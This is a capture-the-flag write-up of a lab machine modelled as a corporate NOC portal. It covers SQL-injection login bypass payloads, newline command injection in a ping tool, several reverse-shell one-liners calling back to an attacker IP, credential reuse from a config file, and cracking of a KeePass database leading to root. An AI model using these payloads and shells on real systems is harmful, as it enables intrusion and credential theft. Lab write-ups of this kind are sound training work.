## Scenario

> Green Lights, Dark Corners
> 
> CorpNet's internal network operations centre has been running quietly for years. Monitoring hosts, logging events, and keeping the infrastructure alive. Or so it seems. A tip from a disgruntled contractor suggests that someone on the NOC team has been cutting corners, leaving doors open, and hiding things in places no one thinks to look.
> 
> The portal is up. The services show green. The audit log looks clean.
> 
> But clean logs can be written by anyone.
> 
> Your job is to get in, move through the system, and find out what is really running behind the secret dashboard.

Access via: `10.114.186.8`

## Initial Reconnaissance

I started with a full TCP port sweep to see what was actually exposed, rather than trusting a default top-1000 scan to catch everything.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.186.8 -p- -T4                  
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 23:30 +0200
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 93.16% done; ETC: 23:30 (0:00:01 remaining)
Nmap scan report for 10.114.186.8
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5050/tcp open  mmcc

Nmap done: 1 IP address (1 host up) scanned in 18.14 seconds
```

Only two ports: 22 (SSH) and 5050, which nmap guessed as `mmcc` from its service-name database without actually knowing what was behind it. I followed up with a version/script scan against just those two ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.186.8 -p22,5050 -sV -sC 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 23:30 +0200
Nmap scan report for 10.114.186.8
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a9:10:26:13:92:2f:db:31:ac:42:79:36:92:87:db:a6 (ECDSA)
|_  256 11:1b:df:09:98:69:40:35:22:9f:b6:c3:11:70:be:e7 (ED25519)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet \xE2\x80\x94 Network Operations Centre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

Port 5050 turned out to be a Werkzeug (Flask's development server) instance on Python 3.10.12, titled "CorpNet — Network Operations Centre". A development server exposed like this is usually a soft target, so that's where I focused next.

## Web Enumeration

Browsing to port 5050 landed on a static-looking NOC dashboard page with nothing clickable, no cookies set, and nothing interesting in the page source. Running Wappalyzer against it confirmed the stack nmap had already hinted at: Flask on Python, nothing else notable.





With nothing to interact with on the landing page, I ran a directory brute-force to look for anything not linked from the homepage.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.186.8:5050/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.186.8:5050/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 9259, Words: 1290, Lines: 370, Duration: 70ms]
internal                [Status: 200, Size: 8770, Words: 1420, Lines: 264, Duration: 49ms]
```

This turned up `/internal` almost immediately, a path that wasn't linked anywhere on the public-facing page.

## SQL Injection Authentication Bypass

`/internal` was a login form: "Sign In to NOC Portal", restricted to authorised personnel. As with the homepage, there was nothing of note in the page source. A quick `admin:admin` with the browser dev tools open just to see how the request was shaped didn't log me in, but confirmed it was a plain POST of `username`/`password`.

I pointed sqlmap at the login endpoint.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://10.114.186.8:5050/internal' -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://10.114.186.8:5050' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://10.114.186.8:5050/internal' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin*&password=admin*' --level=3 --risk=3
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.10#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:47:43 /2026-11-20/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[23:47:48] [INFO] testing connection to the target URL
[23:47:48] [INFO] testing if the target URL content is stable
[23:47:48] [INFO] target URL content is stable
[23:47:48] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[23:47:49] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[23:47:49] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be SQL injectable
[23:47:49] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[23:47:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:47:50] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://10.114.186.8:5050/internal/dashboard'. Do you want to follow? [Y/n] n
```

It seems like SQLmap managed to get access, given the redirect. I reran it again with `admin`/`admin` (not that it really mattered) and with higher verbosity so I could see exactly what sqlmap was sending.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://10.114.186.8:5050/internal' -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://10.114.186.8:5050' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://10.114.186.8:5050/internal' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=admin*&password=admin*' --level=3 --risk=3 -v 3       
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.10#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:51:41 /2026-11-20/

[23:51:41] [DEBUG] cleaning up configuration parameters
[23:51:41] [DEBUG] setting the HTTP timeout
[23:51:41] [DEBUG] setting extra HTTP headers
[23:51:41] [DEBUG] setting the HTTP User-Agent header
[23:51:41] [DEBUG] creating HTTP requests opener object
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[23:51:43] [INFO] testing connection to the target URL
[23:51:44] [DEBUG] declared web page charset 'utf-8'
[23:51:44] [INFO] testing if the target URL content is stable
[23:51:44] [INFO] target URL content is stable
[23:51:44] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[23:51:44] [PAYLOAD] 8873
[23:51:44] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[23:51:44] [PAYLOAD] admin...())."'.
[23:51:44] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be SQL injectable
[23:51:44] [PAYLOAD] admin'jbMgHc<'">)LnXZYv
[23:51:44] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[23:51:44] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'

—SNIP—

[23:51:45] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[23:51:45] [PAYLOAD] -4495
[23:51:45] [PAYLOAD] -1604) OR 3213=5311-- JwQa
[23:51:45] [PAYLOAD] -9464) OR 7470=7470-- GmRS
[23:51:45] [PAYLOAD] -1586' OR 2701=4102-- QRBA
[23:51:45] [PAYLOAD] -4277' OR 7470=7470-- qneq
got a 302 redirect to 'http://10.114.186.8:5050/internal/dashboard'. Do you want to follow? [Y/n] 
[23:52:59] [ERROR] user quit
```

The `-v 3` log showed the exact payload that triggered a 302 redirect to `/internal/dashboard`: `-4277' OR 7470=7470-- qneq` in the username field. I quit sqlmap at that point rather than letting it follow the redirect, since I wanted to reproduce the login myself.

Reproducing sqlmap's exact payload directly in the login form worked immediately:



That logged me in as operator `netops` on the first attempt. Having confirmed the mechanism was a straightforward boolean-based `OR` bypass, I went back to the login page afterwards to test the general case with the more recognisable textbook payload, reasoning that since one `OR`-true condition worked, this equivalent should too:



It worked as well, confirming the login query was vulnerable to a plain `' OR <true>--` bypass with no further tricks needed. Both attempts landed on the dashboard:



The audit log on the dashboard was telling in its own right: entries for `netops` and `jmartin` doing ordinary health checks, but also `' OR 1=1#` and `admin' --` logged as `LOGIN_ERROR`/`LOGIN_FAIL` — evidence that someone else had already been probing this same login form for SQL injection before me.

## Command Injection in the Host Health Probe

The dashboard's sidebar had a "Host Health" page: an ICMP connectivity probe that takes a hostname or IP and pings it.



The usage notes were a hint in themselves: a feature built entirely around shelling out to `ping` against user-supplied input reeks of a command-injection candidate. I tried a plain, non-existent hostname first as a baseline:



Then tried the standard separator characters — `&`, `&&`, `|`, a literal `\n`, and their URL-encoded forms — with no luck.




The dashboard's audit log showed entries of  another operator's health checks being logged as `127.0.0.1%0awhoami` and `127.0.0.1%0id` — `%0a`, the URL-encoded newline, so I was a bit confused on why this didn't work. 

I opened the browser's dev tools Network tab while submitting the probe to see exactly what the request looked like, and realised I could intercept it and edit it directly rather than typing into the field — so I captured the request in Burp and sent it to Repeater. 

Injecting a command in a literal new line worked cleanly: it ran `id` as a second shell statement rather than treating it as part of the hostname.




The `id` output confirmed command execution as `www-data`, run by whatever process handles the probe.

### Attempting a Reverse Shell

With confirmed command execution, I started a listener and went for a reverse shell.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

The target's netcat build doesn't support `-e`, so a one-liner using that was out. 

I moved to a bash-native `/dev/tcp` reverse shell, wrapped in `bash -c` with the whole command single-quoted:

```
target=127.0.0.1
bash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1'
```

```shell
$ ping -c 2 -W 1 127.0.0.1 bash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1'

ping: 127.0.0.1
: Name or service not known
/bin/sh: 2: Syntax error: Unterminated quoted string
```

My first guess was a quoting problem, so I tried adding extra closing quotes on subsequent attempts. The error stayed exactly the same, word for word, regardless of how many quotes I appended. 

Reasoning that the outer `bash -c '...'` wrapper added an extra layer of quoting I didn't strictly need — since the shell was already executing whatever I put on that second line directly — I dropped it:

```
target=127.0.0.1
bash -i >& /dev/tcp/—REDACTED—/1234 0>&1
```

```shell
$ ping -c 2 -W 1 127.0.0.1 bash -i >

ping: 127.0.0.1
: Name or service not known
/bin/sh: 2: Syntax error: end of file unexpected
```

A different syntax error, still unresolved. I moved to a named-pipe approach instead: 

```
target=127.0.0.1
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc —REDACTED— 1234 >/tmp/f
```

But this didn't work either. 

Rather than keep digging into what was amiss, I decided to stop chasing a reverse shell and just use the same injection point to look around directly.

## Finding Credentials on Disk

I sent `ls` : 



`secret.conf`, sitting right in the current working directory, remonstrated me for my tunnel-vision. 

```shell
: Name or service not known
# netops application config
# generated: 2026-01-03

[database]
path    = /opt/netops/netops.db
timeout = 5

[app]
host     = 0.0.0.0
port     = 5050
log_path = /var/log/netops/app.log

[auth]
session_lifetime = 1800

# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as   = sysadmin
password = S3cur3Backup$Acc3ss!

[smtp]
host = 127.0.0.1
port = 25
from = noc-alerts@corp.internal
```

## Lateral Movement to sysadmin

I used the credentials from `secret.conf` directly over SSH.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh sysadmin@10.114.186.8               
—SNIP—
sysadmin@tryhackme-2204:~$ 
```

```shell
sysadmin@tryhackme-2204:~$ ls
backups  user.txt
sysadmin@tryhackme-2204:~$ cat user.txt 
—REDACTED—
```
### Question — What is the content of user.txt?

**Answer:** `—REDACTED—`

## Extracting the KeePass Database

A `backups` directory sat alongside `user.txt`:

```shell
sysadmin@tryhackme-2204:~$ ls backups/
README.txt  infrastructure.kdbx
sysadmin@tryhackme-2204:~$ cat backups/README.txt 
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database

Contact the sysadmin team lead if you require access.
```

A KeePass database, explicitly flagged as confidential, sitting in a backup directory reachable by the service account whose password had just been found in plaintext. I pulled it over to my own machine with a quick HTTP server. 

```shell
sysadmin@tryhackme-2204:~/backups$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wget http://10.114.186.8:8080/infrastructure.kdbx -O infrastructure.kdbx              
--2026-11-21 00:37:49--  http://10.114.186.8:8080/infrastructure.kdbx
Connecting to 10.114.186.8:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2439 (2.4K) [application/octet-stream]
Saving to: ‘infrastructure.kdbx’

infrastructure.kdbx                                        100%[===>]   2.38K  --.-KB/s    in 0s      

2026-11-21 00:37:49 (390 MB/s) - ‘infrastructure.kdbx’ saved [2439/2439]
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ file infrastructure.kdbx                                                                                                                          
infrastructure.kdbx: Keepass password database 2.x KDBX
```

Not having worked with KeePass databases before, I looked up what KeePass actually was and how to open a `.kdbx` file on Linux. While poking around in the terminal trying to find a tool for it, shell autocomplete turned up `keepass2john` — a useful tool to know about for turning a KeePass database into a crackable hash format.

### Cracking the Database Password

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ keepass2john ./infrastructure.kdbx > kbdx.hash 
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ john kbdx.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 256/256 AVX2])
Cost 1 (t (rounds)) is 15000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spring           (infrastructure)     
1g 0:00:00:00 DONE (2026-11-21 00:42) 5.263g/s 13305p/s 13305c/s 13305C/s spring..canela
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The hash was cracked instantly.

I installed KeePassXC to actually open the file:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo apt install keepassxc-minimal 
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ keepassxc infrastructure.kdbx 
```



Unlocking with `spring` opened the vault, which held a single entry:



## Privilege Escalation to root

```shell
sysadmin@tryhackme-2204:~$ su root
Password: 
root@tryhackme-2204:/home/sysadmin# cd /root
root@tryhackme-2204:~# ls
root.txt  snap
root@tryhackme-2204:~# cat root.txt
—REDACTED—
```

### Question — What is the content of root.txt?

**Answer:** `—REDACTED—`